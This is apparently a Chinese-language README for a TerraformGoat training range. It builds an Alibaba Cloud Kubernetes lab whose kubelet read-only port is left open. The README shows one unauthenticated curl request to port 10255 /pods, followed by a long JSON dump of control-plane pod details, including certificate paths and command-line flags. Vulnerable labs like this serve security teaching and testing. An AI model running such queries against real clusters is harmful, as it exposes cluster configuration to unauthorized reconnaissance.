

# kubernetes kubelet 只读端口开放漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建kubernetes kubelet组件 只读端口开放漏洞环境的靶场。

使用 terraform 构建环境后，用户可以通过 kubelet组件 只读端口开放漏洞查看kubelet节点上的资源信息。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/kubernetes/kubelet/read-only-port
```

配置阿里云访问凭证

```shell
export ALICLOUD_ACCESS_KEY="LTAI5tFkmNGXXXXXXXXX"
export ALICLOUD_SECRET_KEY="ORBs2lulAHDXXXXXXXXX"
export ALICLOUD_REGION="cn-beijing"
```

> 在阿里云控制台的 [AccessKey 页面](https://ram.console.aliyun.com/manage/ak) 可以创建和查看您的 AccessKey

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可



环境搭建完后，在 Outputs 处可以看到kubelet 只读api的访问地址。

## 漏洞利用

在存在只读端口开放漏洞的 kubelet 上，我们可以利用漏洞查看kubelet节点上的资源信息。

比如，我们可以获取kubelet节点上的所有pod信息

```shell
➜  read-only-port git:(main) ✗ curl "http://123.56.207.189:10255/pods"
{"kind":"PodList","apiVersion":"v1","metadata":{},"items":[{"metadata":{"name":"kube-apiserver-iz2ze0kyz26d9fx00gb2w7z","namespace":"kube-system","selfLink":"/api/v1/namespaces/kube-system/pods/kube-apiserver-iz2ze0kyz26d9fx00gb2w7z","uid":"f0d6f866a87bd046360626d5e312c46a","creationTimestamp":null,"labels":{"component":"kube-apiserver","tier":"control-plane"},"annotations":{"kubeadm.kubernetes.io/kube-apiserver.advertise-address.endpoint":"172.16.0.5:6443","kubernetes.io/config.hash":"f0d6f866a87bd046360626d5e312c46a","kubernetes.io/config.seen":"2022-06-24T12:34:22.295385996+08:00","kubernetes.io/config.source":"file"}},"spec":{"volumes":[{"name":"ca-certs","hostPath":{"path":"/etc/ssl/certs","type":"DirectoryOrCreate"}},{"name":"etc-ca-certificates","hostPath":{"path":"/etc/ca-certificates","type":"DirectoryOrCreate"}},{"name":"etcd-certs-0","hostPath":{"path":"/etc/ssl/etcd/ssl","type":"DirectoryOrCreate"}},{"name":"k8s-certs","hostPath":{"path":"/etc/kubernetes/pki","type":"DirectoryOrCreate"}},{"name":"usr-local-share-ca-certificates","hostPath":{"path":"/usr/local/share/ca-certificates","type":"DirectoryOrCreate"}},{"name":"usr-share-ca-certificates","hostPath":{"path":"/usr/share/ca-certificates","type":"DirectoryOrCreate"}}],"containers":[{"name":"kube-apiserver","image":"registry.cn-beijing.aliyuncs.com/kubesphereio/kube-apiserver:v1.21.5","command":["kube-apiserver","--advertise-address=172.16.0.5","--allow-privileged=true","--audit-log-maxage=30","--audit-log-maxbackup=10","--audit-log-maxsize=100","--authorization-mode=Node,RBAC","--bind-address=0.0.0.0","--client-ca-file=/etc/kubernetes/pki/ca.crt","--enable-admission-plugins=NodeRestriction","--enable-bootstrap-token-auth=true","--etcd-cafile=/etc/ssl/etcd/ssl/ca.pem","--etcd-certfile=/etc/ssl/etcd/ssl/node-iZ2ze0kyz26d9fx00gb2w7Z.pem","--etcd-keyfile=/etc/ssl/etcd/ssl/node-iZ2ze0kyz26d9fx00gb2w7Z-key.pem","--etcd-servers=https://172.16.0.5:2379","--feature-gates=RotateKubeletServerCertificate=true,TTLAfterFinished=true,ExpandCSIVolumes=true,CSIStorageCapacity=true","--insecure-port=0","--kubelet-client-certificate=/etc/kubernetes/pki/apiserver-kubelet-client.crt","--kubelet-client-key=/etc/kubernetes/pki/apiserver-kubelet-client.key","--kubelet-preferred-address-types=InternalIP,ExternalIP,Hostname","--proxy-client-cert-file=/etc/kubernetes/pki/front-proxy-client.crt","--proxy-client-key-file=/etc/kubernetes/pki/front-proxy-client.key","--requestheader-allowed-names=front-proxy-client","--requestheader-client-ca-file=/etc/kubernetes/pki/front-proxy-ca.crt","--requestheader-extra-headers-prefix=X-Remote-Extra-","--requestheader-group-headers=X-Remote-Group","--requestheader-username-headers=X-Remote-User","--secure-port=6443","--service-account-issuer=https://kubernetes.default.svc.cluster.local","--service-account-key-file=/etc/kubernetes/pki/sa.pub","--service-account-signing-key-file=/etc/kubernetes/pki/sa.key","--service-cluster-ip-range=10.233.0.0/18","--tls-cert-file=/etc/kubernetes/pki/apiserver.crt","--tls-private-key-file=/etc/kubernetes/pki/apiserver.key"],"resources":{"requests":{"cpu":"250m"}},"volumeMounts":[{"name":"ca-certs","readOnly":true,"mountPath":"/etc/ssl/certs"},{"name":"etc-ca-certificates","readOnly":true,"mountPath":"/etc/ca-certificates"},{"name":"etcd-certs-0","readOnly":true,"mountPath":"/etc/ssl/etcd/ssl"},{"name":"k8s-certs","readOnly":true,"mountPath":"/etc/kubernetes/pki"},{"name":"usr-local-share-ca-certificates","readOnly":true,"mountPath":"/usr/local/share/ca-certificates"},{"name":"usr-share-ca-certificates","readOnly":true,"mountPath":"/usr/share/ca-certificates"}],"livenessProbe":{"httpGet":{"path":"/livez","port":6443,"host":"172.16.0.5","scheme":"HTTPS"},"initialDelaySeconds":10,"timeoutSeconds":15,"periodSeconds":10,"successThreshold":1,"failureThreshold":8},"readinessProbe":{"httpGet":{"path":"/readyz","port":6443,"host":"172.16.0.5","scheme":"HTTPS"},"timeoutSeconds":15,"periodSeconds":1,"successThreshold":1,"failureThreshold":3},"startupProbe":{"httpGet":{"path":"/livez","port":6443,"host":"172.16.0.5","scheme":"HTTPS"},"initialDelaySeconds":10,"timeoutSeconds":15,"periodSeconds":10,"successThreshold":1,"failureThreshold":24},"terminationMessagePath":"/dev/termination-log","terminationMessagePolicy":"File","imagePullPolicy":"IfNotPresent"}],"restartPolicy":"Always","terminationGracePeriodSeconds":30,"dnsPolicy":"ClusterFirst","nodeName":"iz2ze0kyz26d9fx00gb2w7z","hostNetwork":true,"securityContext":{},"schedulerName":"default-scheduler","tolerations":[{"operator":"Exists","effect":"NoExecute"}],"priorityClassName":"system-node-critical","enableServiceLinks":true},"status":{"phase":"Running","conditions":[{"type":"Initialized","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:33:07Z"},{"type":"Ready","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:34:30Z"},{"type":"ContainersReady","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:34:30Z"},{"type":"PodScheduled","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:33:07Z"}],"hostIP":"172.16.0.5","podIP":"172.16.0.5","podIPs":[{"ip":"172.16.0.5"}],"startTime":"2022-06-24T04:33:07Z","containerStatuses":[{"name":"kube-apiserver","state":{"running":{"startedAt":"2022-06-24T04:32:53Z"}},"lastState":{},"ready":true,"restartCount":0,"image":"registry.cn-beijing.aliyuncs.com/kubesphereio/kube-apiserver:v1.21.5","imageID":"docker-pullable://registry.cn-beijing.aliyuncs.com/kubesphereio/kube-apiserver@sha256:2a88e173873a9870bea873f3907557aefee3fe6887859b648cea06a38fa08227","containerID":"docker://45633cebc509bb18210d3d4e14631c44631ead56befef4a3eeca2884055ee839","started":true}],"qosClass":"Burstable"}},{"metadata":{"name":"kube-controller-manager-iz2ze0kyz26d9fx00gb2w7z","namespace":"kube-system","selfLink":"/api/v1/namespaces/kube-system/pods/kube-controller-manager-iz2ze0kyz26d9fx00gb2w7z","uid":"09a888489c99f25e021e1224e1f3b44f","creationTimestamp":null,"labels":{"component":"kube-controller-manager","tier":"control-plane"},"annotations":{"kubernetes.io/config.hash":"09a888489c99f25e021e1224e1f3b44f","kubernetes.io/config.seen":"2022-06-24T12:34:22.295404349+08:00","kubernetes.io/config.source":"file"}},"spec":{"volumes":[{"name":"ca-certs","hostPath":{"path":"/etc/ssl/certs","type":"DirectoryOrCreate"}},{"name":"etc-ca-certificates","hostPath":{"path":"/etc/ca-certificates","type":"DirectoryOrCreate"}},{"name":"flexvolume-dir","hostPath":{"path":"/usr/libexec/kubernetes/kubelet-plugins/volume/exec","type":"DirectoryOrCreate"}},{"name":"host-time","hostPath":{"path":"/etc/localtime","type":""}},{"name":"k8s-certs","hostPath":{"path":"/etc/kubernetes/pki","type":"DirectoryOrCreate"}},{"name":"kubeconfig","hostPath":{"path":"/etc/kubernetes/controller-manager.conf","type":"FileOrCreate"}},{"name":"usr-local-share-ca-certificates","hostPath":{"path":"/usr/local/share/ca-certificates","type":"DirectoryOrCreate"}},{"name":"usr-share-ca-certificates","hostPath":{"path":"/usr/share/ca-certificates","type":"DirectoryOrCreate"}}],"containers":[{"name":"kube-controller-manager","image":"registry.cn-beijing.aliyuncs.com/kubesphereio/kube-controller-manager:v1.21.5","command":["kube-controller-manager","--allocate-node-cidrs=true","--authentication-kubeconfig=/etc/kubernetes/controller-manager.conf","--authorization-kubeconfig=/etc/kubernetes/controller-manager.conf","--bind-address=0.0.0.0","--client-ca-file=/etc/kubernetes/pki/ca.crt","--cluster-cidr=10.233.64.0/18","--cluster-name=cluster.local","--cluster-signing-cert-file=/etc/kubernetes/pki/ca.crt","--cluster-signing-key-file=/etc/kubernetes/pki/ca.key","--controllers=*,bootstrapsigner,tokencleaner","--experimental-cluster-signing-duration=87600h","--feature-gates=RotateKubeletServerCertificate=true,TTLAfterFinished=true,ExpandCSIVolumes=true,CSIStorageCapacity=true","--kubeconfig=/etc/kubernetes/controller-manager.conf","--leader-elect=true","--node-cidr-mask-size=24","--port=0","--requestheader-client-ca-file=/etc/kubernetes/pki/front-proxy-ca.crt","--root-ca-file=/etc/kubernetes/pki/ca.crt","--service-account-private-key-file=/etc/kubernetes/pki/sa.key","--service-cluster-ip-range=10.233.0.0/18","--use-service-account-credentials=true"],"resources":{"requests":{"cpu":"200m"}},"volumeMounts":[{"name":"ca-certs","readOnly":true,"mountPath":"/etc/ssl/certs"},{"name":"etc-ca-certificates","readOnly":true,"mountPath":"/etc/ca-certificates"},{"name":"flexvolume-dir","mountPath":"/usr/libexec/kubernetes/kubelet-plugins/volume/exec"},{"name":"host-time","readOnly":true,"mountPath":"/etc/localtime"},{"name":"k8s-certs","readOnly":true,"mountPath":"/etc/kubernetes/pki"},{"name":"kubeconfig","readOnly":true,"mountPath":"/etc/kubernetes/controller-manager.conf"},{"name":"usr-local-share-ca-certificates","readOnly":true,"mountPath":"/usr/local/share/ca-certificates"},{"name":"usr-share-ca-certificates","readOnly":true,"mountPath":"/usr/share/ca-certificates"}],"livenessProbe":{"httpGet":{"path":"/healthz","port":10257,"scheme":"HTTPS"},"initialDelaySeconds":10,"timeoutSeconds":15,"periodSeconds":10,"successThreshold":1,"failureThreshold":8},"startupProbe":{"httpGet":{"path":"/healthz","port":10257,"scheme":"HTTPS"},"initialDelaySeconds":10,"timeoutSeconds":15,"periodSeconds":10,"successThreshold":1,"failureThreshold":24},"terminationMessagePath":"/dev/termination-log","terminationMessagePolicy":"File","imagePullPolicy":"IfNotPresent"}],"restartPolicy":"Always","terminationGracePeriodSeconds":30,"dnsPolicy":"ClusterFirst","nodeName":"iz2ze0kyz26d9fx00gb2w7z","hostNetwork":true,"securityContext":{},"schedulerName":"default-scheduler","tolerations":[{"operator":"Exists","effect":"NoExecute"}],"priorityClassName":"system-node-critical","enableServiceLinks":true},"status":{"phase":"Running","conditions":[{"type":"Initialized","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:33:07Z"},{"type":"Ready","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:34:30Z"},{"type":"ContainersReady","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:34:30Z"},{"type":"PodScheduled","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:33:07Z"}],"hostIP":"172.16.0.5","podIP":"172.16.0.5","podIPs":[{"ip":"172.16.0.5"}],"startTime":"2022-06-24T04:33:07Z","containerStatuses":[{"name":"kube-controller-manager","state":{"running":{"startedAt":"2022-06-24T04:32:53Z"}},"lastState":{},"ready":true,"restartCount":0,"image":"registry.cn-beijing.aliyuncs.com/kubesphereio/kube-controller-manager:v1.21.5","imageID":"docker-pullable://registry.cn-beijing.aliyuncs.com/kubesphereio/kube-controller-manager@sha256:1c3ae19287a122c4d58b6b7ffb030ea8962edfae798d9986445f85cdc1de1844","containerID":"docker://debf41bd370b19ea93b5248a1893cfb9f84fcd2da8fd8cd26cec3b3751c3d704","started":true}],"qosClass":"Burstable"}},{"metadata":{"name":"kube-scheduler-iz2ze0kyz26d9fx00gb2w7z","namespace":"kube-system","selfLink":"/api/v1/namespaces/kube-system/pods/kube-scheduler-iz2ze0kyz26d9fx00gb2w7z","uid":"5dd992167146d5378be4370feac1d498","creationTimestamp":null,"labels":{"component":"kube-scheduler","tier":"control-plane"},"annotations":{"kubernetes.io/config.hash":"5dd992167146d5378be4370feac1d498","kubernetes.io/config.seen":"2022-06-24T12:34:22.295405902+08:00","kubernetes.io/config.source":"file"}},"spec":{"volumes":[{"name":"kubeconfig","hostPath":{"path":"/etc/kubernetes/scheduler.conf","type":"FileOrCreate"}}],"containers":[{"name":"kube-scheduler","image":"registry.cn-beijing.aliyuncs.com/kubesphereio/kube-scheduler:v1.21.5","command":["kube-scheduler","--authentication-kubeconfig=/etc/kubernetes/scheduler.conf","--authorization-kubeconfig=/etc/kubernetes/scheduler.conf","--bind-address=0.0.0.0","--feature-gates=RotateKubeletServerCertificate=true,TTLAfterFinished=true,ExpandCSIVolumes=true,CSIStorageCapacity=true","--kubeconfig=/etc/kubernetes/scheduler.conf","--leader-elect=true","--port=0"],"resources":{"requests":{"cpu":"100m"}},"volumeMounts":[{"name":"kubeconfig","readOnly":true,"mountPath":"/etc/kubernetes/scheduler.conf"}],"livenessProbe":{"httpGet":{"path":"/healthz","port":10259,"scheme":"HTTPS"},"initialDelaySeconds":10,"timeoutSeconds":15,"periodSeconds":10,"successThreshold":1,"failureThreshold":8},"startupProbe":{"httpGet":{"path":"/healthz","port":10259,"scheme":"HTTPS"},"initialDelaySeconds":10,"timeoutSeconds":15,"periodSeconds":10,"successThreshold":1,"failureThreshold":24},"terminationMessagePath":"/dev/termination-log","terminationMessagePolicy":"File","imagePullPolicy":"IfNotPresent"}],"restartPolicy":"Always","terminationGracePeriodSeconds":30,"dnsPolicy":"ClusterFirst","nodeName":"iz2ze0kyz26d9fx00gb2w7z","hostNetwork":true,"securityContext":{},"schedulerName":"default-scheduler","tolerations":[{"operator":"Exists","effect":"NoExecute"}],"priorityClassName":"system-node-critical","enableServiceLinks":true},"status":{"phase":"Running","conditions":[{"type":"Initialized","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:33:07Z"},{"type":"Ready","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:34:34Z"},{"type":"ContainersReady","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:34:34Z"},{"type":"PodScheduled","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:33:07Z"}],"hostIP":"172.16.0.5","podIP":"172.16.0.5","podIPs":[{"ip":"172.16.0.5"}],"startTime":"2022-06-24T04:33:07Z","containerStatuses":[{"name":"kube-scheduler","state":{"running":{"startedAt":"2022-06-24T04:32:52Z"}},"lastState":{},"ready":true,"restartCount":0,"image":"registry.cn-beijing.aliyuncs.com/kubesphereio/kube-scheduler:v1.21.5","imageID":"docker-pullable://registry.cn-beijing.aliyuncs.com/kubesphereio/kube-scheduler@sha256:af426d1982a88ed5a4facd0cac3d670fee77575ed9d7cf5e98dc7b653f8f8ceb","containerID":"docker://3a7d782e9829115e7bd78fdccf3b85683d9c09cff4e8877822453631e83a905c","started":true}],"qosClass":"Burstable"}},{"metadata":{"name":"kube-proxy-xsddj","generateName":"kube-proxy-","namespace":"kube-system","uid":"e6995181-b0cd-4d8b-9828-eb24553326c5","resourceVersion":"447","creationTimestamp":"2022-06-24T04:33:16Z","labels":{"controller-revision-hash":"577d4f87f","k8s-app":"kube-proxy","pod-template-generation":"1"},"annotations":{"kubernetes.io/config.seen":"2022-06-24T12:34:23.284339713+08:00","kubernetes.io/config.source":"api"},"ownerReferences":[{"apiVersion":"apps/v1","kind":"DaemonSet","name":"kube-proxy","uid":"713382f4-c0a0-422e-96b8-4118d1d1b234","controller":true,"blockOwnerDeletion":true}],"managedFields":[{"manager":"kube-controller-manager","operation":"Update","apiVersion":"v1","time":"2022-06-24T04:33:16Z","fieldsType":"FieldsV1","fieldsV1":{"f:metadata":{"f:generateName":{},"f:labels":{".":{},"f:controller-revision-hash":{},"f:k8s-app":{},"f:pod-template-generation":{}},"f:ownerReferences":{".":{},"k:{\"uid\":\"713382f4-c0a0-422e-96b8-4118d1d1b234\"}":{".":{},"f:apiVersion":{},"f:blockOwnerDeletion":{},"f:controller":{},"f:kind":{},"f:name":{},"f:uid":{}}}},"f:spec":{"f:affinity":{".":{},"f:nodeAffinity":{".":{},"f:requiredDuringSchedulingIgnoredDuringExecution":{".":{},"f:nodeSelectorTerms":{}}}},"f:containers":{"k:{\"name\":\"kube-proxy\"}":{".":{},"f:command":{},"f:env":{".":{},"k:{\"name\":\"NODE_NAME\"}":{".":{},"f:name":{},"f:valueFrom":{".":{},"f:fieldRef":{".":{},"f:apiVersion":{},"f:fieldPath":{}}}}},"f:image":{},"f:imagePullPolicy":{},"f:name":{},"f:resources":{},"f:securityContext":{".":{},"f:privileged":{}},"f:terminationMessagePath":{},"f:terminationMessagePolicy":{},"f:volumeMounts":{".":{},"k:{\"mountPath\":\"/lib/modules\"}":{".":{},"f:mountPath":{},"f:name":{},"f:readOnly":{}},"k:{\"mountPath\":\"/run/xtables.lock\"}":{".":{},"f:mountPath":{},"f:name":{}},"k:{\"mountPath\":\"/var/lib/kube-proxy\"}":{".":{},"f:mountPath":{},"f:name":{}}}}},"f:dnsPolicy":{},"f:enableServiceLinks":{},"f:hostNetwork":{},"f:nodeSelector":{".":{},"f:kubernetes.io/os":{}},"f:priorityClassName":{},"f:restartPolicy":{},"f:schedulerName":{},"f:securityContext":{},"f:serviceAccount":{},"f:serviceAccountName":{},"f:terminationGracePeriodSeconds":{},"f:tolerations":{},"f:volumes":{".":{},"k:{\"name\":\"kube-proxy\"}":{".":{},"f:configMap":{".":{},"f:defaultMode":{},"f:name":{}},"f:name":{}},"k:{\"name\":\"lib-modules\"}":{".":{},"f:hostPath":{".":{},"f:path":{},"f:type":{}},"f:name":{}},"k:{\"name\":\"xtables-lock\"}":{".":{},"f:hostPath":{".":{},"f:path":{},"f:type":{}},"f:name":{}}}}}},{"manager":"kubelet","operation":"Update","apiVersion":"v1","time":"2022-06-24T04:33:17Z","fieldsType":"FieldsV1","fieldsV1":{"f:status":{"f:conditions":{"k:{\"type\":\"ContainersReady\"}":{".":{},"f:lastProbeTime":{},"f:lastTransitionTime":{},"f:status":{},"f:type":{}},"k:{\"type\":\"Initialized\"}":{".":{},"f:lastProbeTime":{},"f:lastTransitionTime":{},"f:status":{},"f:type":{}},"k:{\"type\":\"Ready\"}":{".":{},"f:lastProbeTime":{},"f:lastTransitionTime":{},"f:status":{},"f:type":{}}},"f:containerStatuses":{},"f:hostIP":{},"f:phase":{},"f:podIP":{},"f:podIPs":{".":{},"k:{\"ip\":\"172.16.0.5\"}":{".":{},"f:ip":{}}},"f:startTime":{}}}}]},"spec":{"volumes":[{"name":"kube-proxy","configMap":{"name":"kube-proxy","defaultMode":420}},{"name":"xtables-lock","hostPath":{"path":"/run/xtables.lock","type":"FileOrCreate"}},{"name":"lib-modules","hostPath":{"path":"/lib/modules","type":""}},{"name":"kube-api-access-q9vvc","projected":{"sources":[{"serviceAccountToken":{"expirationSeconds":3607,"path":"token"}},{"configMap":{"name":"kube-root-ca.crt","items":[{"key":"ca.crt","path":"ca.crt"}]}},{"downwardAPI":{"items":[{"path":"namespace","fieldRef":{"apiVersion":"v1","fieldPath":"metadata.namespace"}}]}}],"defaultMode":420}}],"containers":[{"name":"kube-proxy","image":"registry.cn-beijing.aliyuncs.com/kubesphereio/kube-proxy:v1.21.5","command":["/usr/local/bin/kube-proxy","--config=/var/lib/kube-proxy/config.conf","--hostname-override=$(NODE_NAME)"],"env":[{"name":"NODE_NAME","valueFrom":{"fieldRef":{"apiVersion":"v1","fieldPath":"spec.nodeName"}}}],"resources":{},"volumeMounts":[{"name":"kube-proxy","mountPath":"/var/lib/kube-proxy"},{"name":"xtables-lock","mountPath":"/run/xtables.lock"},{"name":"lib-modules","readOnly":true,"mountPath":"/lib/modules"},{"name":"kube-api-access-q9vvc","readOnly":true,"mountPath":"/var/run/secrets/kubernetes.io/serviceaccount"}],"terminationMessagePath":"/dev/termination-log","terminationMessagePolicy":"File","imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}],"restartPolicy":"Always","terminationGracePeriodSeconds":30,"dnsPolicy":"ClusterFirst","nodeSelector":{"kubernetes.io/os":"linux"},"serviceAccountName":"kube-proxy","serviceAccount":"kube-proxy","nodeName":"iz2ze0kyz26d9fx00gb2w7z","hostNetwork":true,"securityContext":{},"affinity":{"nodeAffinity":{"requiredDuringSchedulingIgnoredDuringExecution":{"nodeSelectorTerms":[{"matchFields":[{"key":"metadata.name","operator":"In","values":["iz2ze0kyz26d9fx00gb2w7z"]}]}]}}},"schedulerName":"default-scheduler","tolerations":[{"key":"CriticalAddonsOnly","operator":"Exists"},{"operator":"Exists"},{"key":"node.kubernetes.io/not-ready","operator":"Exists","effect":"NoExecute"},{"key":"node.kubernetes.io/unreachable","operator":"Exists","effect":"NoExecute"},{"key":"node.kubernetes.io/disk-pressure","operator":"Exists","effect":"NoSchedule"},{"key":"node.kubernetes.io/memory-pressure","operator":"Exists","effect":"NoSchedule"},{"key":"node.kubernetes.io/pid-pressure","operator":"Exists","effect":"NoSchedule"},{"key":"node.kubernetes.io/unschedulable","operator":"Exists","effect":"NoSchedule"},{"key":"node.kubernetes.io/network-unavailable","operator":"Exists","effect":"NoSchedule"}],"priorityClassName":"system-node-critical","priority":2000001000,"enableServiceLinks":true,"preemptionPolicy":"PreemptLowerPriority"},"status":{"phase":"Running","conditions":[{"type":"Initialized","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:33:16Z"},{"type":"Ready","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:33:17Z"},{"type":"ContainersReady","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:33:17Z"},{"type":"PodScheduled","status":"True","lastProbeTime":null,"lastTransitionTime":"2022-06-24T04:33:16Z"}],"hostIP":"172.16.0.5","podIP":"172.16.0.5","podIPs":[{"ip":"172.16.0.5"}],"startTime":"2022-06-24T04:33:16Z","containerStatuses":[{"name":"kube-proxy","state":{"running":{"startedAt":"2022-06-24T04:33:17Z"}},"lastState":{},"ready":true,"restartCount":0,"image":"registry.cn-beijing.aliyuncs.com/kubesphereio/kube-proxy:v1.21.5","imageID":"docker-pullable://registry.cn-beijing.aliyuncs.com/kubesphereio/kube-proxy@sha256:b9f3f8764f5b74085edbed44202aa83dab3555638ea9de182b9f79b6728bee5b","containerID":"docker://000aeb0adc777df2320198ccb7ff7755217e93fca575b38a0904b5a9eca9a236","started":true}],"qosClass":"BestEffort"}}]}
```

## 销毁环境

```shell
terraform destroy
```
